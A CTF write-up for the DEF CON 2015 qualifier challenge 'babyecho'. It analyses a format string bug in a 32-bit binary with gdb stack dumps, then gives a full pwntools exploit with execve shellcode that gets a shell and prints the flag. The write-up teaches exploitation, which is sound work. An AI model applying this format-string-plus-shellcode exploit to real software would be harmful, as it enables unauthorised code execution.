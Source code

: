 # DEF CON Qualifier 2015: babyecho

**Category:** Baby's First
**Points:** 1
**Solves:** TODO
**Description:**

> babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me:3232
>
> [Download](http://downloads.notmalware.ru/babyecho_eb11fdf6e40236b1a37b7974c53b6c3d)


## Write-up

by [boogy](https://github.com/boogy)

_This write-up is made by boogy of the on_est_pas_contents CTF team._

The binary is 32bit and striped:
```bash
$ file babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
babyecho_eb11fdf6e40236b1a37b7974c53b6c3d: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=c9a66685159ad72bd157b521f05a85e2e427f5ee, stripped
```
Fuzzing around with the binary before eaven reverse enginnering it, we sat that there is a format string vulnerability in the function that echos out the user input.
```bash
$ ./babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
Reading 13 bytes
AAAA
AAAA
$ ./babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
Reading 13 bytes
%p%p%p%p
0xd0xa(nil)0xd
```
The problem here is that the buffer only accepts 13 bytes of user input so it's not possible to craft a correct format string payload and overwrite stuff. We need to reverse engineer the function that takes the user input and find out where the size variable is.

I'll not paste all the functions here to save some space but here is the function which is important to us, that prints the user input:
```C
int __usercall sub_8048F3C@<eax>(int a1@<ebx>)
{
  int v1; // ecx@1
  signed int buffer_max_length; // eax@2
  int v3; // ecx@4
  int buffer_length; // [sp+10h] [bp-410h]@1
  int v7; // [sp+1Ch] [bp-404h]@4
  int v8; // [sp+41Ch] [bp-4h]@1

  v8 = *MK_FP(__GS__, 20);
  buffer_length = 13;                           // default buffer length is 13 bytes
  sub_804FC40(off_80EA4C0, 0, 2, 0);
  sub_804DE70(14, sub_8048EB1);
  sub_806CB50(v1, a1);
  while ( 1 )
  {
    buffer_max_length = 1023;                   // maximum length for the buffer
    if ( buffer_length <= 1023 )
      buffer_max_length = buffer_length;
    buffer_length = buffer_max_length;
    sub_804F560("Reading %d bytes\n", buffer_max_length);
    sub_8048E24((int)&v7, buffer_length, 10);
    sub_8048ECF((int)&v7);
    sub_804F560((const char *)&v7);
    sub_804FDE0(10);
    sub_806CB50(v3, a1);
  }
}
```
We can see that the size variable is by default 13 bytes. What is important to note is that the binary checks if the buffer length does not exceed 1023, which means that even if we rewrite the size we can't go more than 1023.

So how do we bypass the 13 bytes restriction and change it to the maximum size **1023**? Well with format strings you have a write what where condition. After some gdb foo we can see the stack layout:

So the stack looks like this:

* %1$x -> 0xd
* %2$x -> 0xa
* %3$x -> 0x0
* %4$x -> 0xd
* %5$x -> pointer to our buffer (first char in "AAAA" on the stack)
* %6$x -> 0x0
* %7$x -> start of our input "AAAA"

We can see this in gdb:

```bash
--------------------------------------------------------------------------[regs]
  EAX: 0x0000000D  EBX: 0x080481A8  ECX: 0x080EB4D4  EDX: 0x080481A8  o d I t S z A p C
  ESI: 0x00000000  EDI: 0x080EA00C  EBP: 0xFFFFD598  ESP: 0xFFFFD170  EIP: 0x08048FDB
  CS: 0023  DS: 002B  ES: 002B  FS: 0000  GS: 0063  SS: 002B
--------------------------------------------------------------------------[code]
=> 0x8048fdb:   call   0x804f560
   0x8048fe0:   mov    DWORD PTR [esp+0x8],0xa
   0x8048fe8:   mov    eax,DWORD PTR [esp+0x10]
   0x8048fec:   mov    DWORD PTR [esp+0x4],eax
   0x8048ff0:   lea    eax,[esp+0x1c]
   0x8048ff4:   mov    DWORD PTR [esp],eax
   0x8048ff7:   call   0x8048e24
   0x8048ffc:   lea    eax,[esp+0x1c]
--------------------------------------------------------------------------------
Breakpoint 1, 0x08048fdb in ?? ()
gdb$ x/32w $esp+4
0xffffd174:     0x0000000d      0x0000000a      0x00000000      0x0000000d
0xffffd184:     0xffffd18c      0x00000000      0x41414141      0x00000000
0xffffd194:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1a4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1b4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1c4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1d4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1e4:     0x00000000      0x00000000      0x00000000      0x00000000
gdb$ x/x 0xffffd18c
0xffffd18c:     0x41414141
```
We can also verify it by giving a **%p** to the binary as input to leak stack values:
```bash
$ ./babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
Reading 13 bytes
%p%p%p%p%p%p
0xd0xa(nil)0xd0xffffd18c(nil)
```
Or accessing directly the buffer address on the stack:
```bash
$ ./babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
Reading 13 bytes
%5$p
0xffffd18c
```
The first **0xd** is 13 in hex so this is the buffer default length. So how can we override it ? That's simple, with the format strings we can leak the buffer address and then calculate the address of the size on the stack then we write to that address.

Here is the final exploit:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
from struct import pack, unpack

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

# p = remote("localhost", 1338)
p = remote("babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me", 3232)
log.info(p.recvuntil("\n"))

#leak buffer address
p.sendline("%5$x")
buffer_address = int(p.recvuntil("\n"), 16)
log.info("Buffer is at %s" % hex(buffer_address))
log.info(p.recvuntil("\n"))

get_address = lambda i: buffer_address+4*(i-7)

# change buffer size to 1023==0x3ff
# buffer_address is 12 bytes after 0xd on the stack
p.sendline(p32(get_address(4)+1)+"%7$hhn") # buffer_address-0xc+1 => 0xd
p.recvuntil("\n")
log.info(p.recvuntil("\n"))

addr2write = get_address(-1)
addr0 = buffer_address+32
addr1 = hex((addr0 >>16)& 0xFFFF)
addr2 = hex(addr0 & 0xFFFF)

payload = str(p32(addr2write)) + str(p32(addr2write+2)) + \
        "%" + str(int(addr1, 16)-8) + "x%8$hn" + \
        "%" + str(int(addr2.replace('0x', '0x1'),16)-int(addr1,16)) + "x%7$hn" + "\x90"*100 + shellcode

log.info("Sending payload")
p.sendline(payload)
p.interactive()
```
> The format string payload could be easily generated with the libformatstr.

Running the exploit we get a shell
```bash
[+] Opening connection to localhost on port 1338: Done
[*] Reading 13 bytes
[*] Buffer is at 0xffb3d4ec
[*] Reading 13 bytes
[*] Reading 1023 bytes
[*] Sending payload
[*] Switching to interactive mode
...
$ cat /home/babyecho/flag
The flag is: 1s 1s th3r3 th3r3 @n @n 3ch0 3ch0 1n 1n h3r3 h3r3? 3uoiw!T0*%
```


## Other write-ups and resources

* <http://pastebin.com/TGuRLGCQ>
* <https://ctf-team.vulnhub.com/defcon-2015-quals-babyecho/>
* <http://geeksspeak.github.io/blog/2015/05/18/defconctf-2015-quals-babyecho-writeup/>
* [Korean](http://blackcon.tistory.com/121)
